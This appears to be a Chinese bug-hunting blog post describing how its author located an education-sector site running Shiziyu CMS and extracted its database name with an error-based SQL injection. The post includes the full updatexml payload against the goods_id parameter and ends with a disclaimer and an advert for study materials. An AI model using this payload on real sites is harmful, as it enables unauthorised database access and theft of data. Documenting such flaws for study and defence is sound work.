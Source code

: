 # 原创
：  EDU实战-SQL注入漏洞

# EDU实战-SQL注入漏洞

```
对于edu来说，是新人挖洞较好的平台，本次记录一次走运的捡漏

```

0x01 前景<br/> 在进行fofa盲打站点的时候，来到了一个后台管理处看到集市二字，应该是edu站点<br/>  

<br/> 确认目标身份（使用的quake进行然后去ipc备案查询）<br/>  

<br/>  

<br/> 网站后台很像cms搭建的，在查看网站时发现

```
/seller.php?s=/Public/login

```

狮子鱼cms的特征<br/> 直接去百度一手，发现有个SQL注入还有其他的，打算一个一个尝试看看<br/>  

<br/> 0x02 尝试挖掘<br/> payload

```
https://www.xxx.com/index.php?s=api/goods_detail&amp;goods_id=1%20and%20updatexml(1,concat(0x7e,database(),0x7e),1)

```

成功爆破出数据库名

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

点赞+在看支持一下吧~

你的点赞是我更新的动力,免费领取安全学习资料包！<br/>[+V【zkaq222】或者下面的扫码不然通不过哦，免费领取安全学习资料包！（私聊进群一起学习，共同进步）腾讯文档-在线文档<img alt="icon-default.png?t=N7T8" src="https://csdnimg.cn/release/blog_editor_html/release2.3.6/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N7T8"/>https://docs.qq.com/doc/DYmVETWlZemh0Ymdv](https://docs.qq.com/doc/DYmVETWlZemh0Ymdv)
